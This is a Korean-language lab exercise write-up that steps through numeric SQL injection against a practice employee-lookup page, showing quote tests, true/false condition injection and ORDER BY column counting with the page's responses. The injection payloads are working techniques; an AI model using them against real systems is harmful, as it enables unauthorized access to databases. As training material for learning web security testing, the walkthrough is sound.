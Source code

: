 
## Exercise2
| GET 요청으로 전달되는 "emp_no" 매개변수는 WHERE절에 사용된 숫자 타입의 컬럼과 연결됩니다. 

1. 홑따옴표 확인
```bash
https://.../sqli_union_ex2.php?emp_no=2%27

Employee Info

Something is wrong!
```
2. 잠재적 취약 여부 검증 - 숫자형 타입
```bash
# 원래 요청과 동일 -> SQL Injection에 취약함
https://.../sqli_union_ex2.php?emp_no=3-1

Employee Info
No	Name	Gender	Birthday
2	Jet Black	M	1974-11-16

# 참이 되는 조건 주입
https://.../sqli_union_ex2.php?emp_no=2+AND+1%3D1--+

Employee Info
No	Name	Gender	Birthday
2	Jet Black	M	1974-11-16

# 거짓이 되는 조건 주입
https://.../sqli_union_ex2.php?emp_no=2+AND+1%3D2--+


Employee Info

0 results
```

3. 칼럼 갯수 파악 - 숫자 타입이므로 홑따옴표 제거
```bash
https://.../sqli_union_ex2.php?emp_no=2+ORDER+BY+5--+

Employee Info
No	Name	Gender	Birthday
2	Jet Black	M	1974-11-16

https://.../sqli_union_ex2.php?emp_no=2+ORDER+BY+6--+

Employee Info

Something is wrong!
```
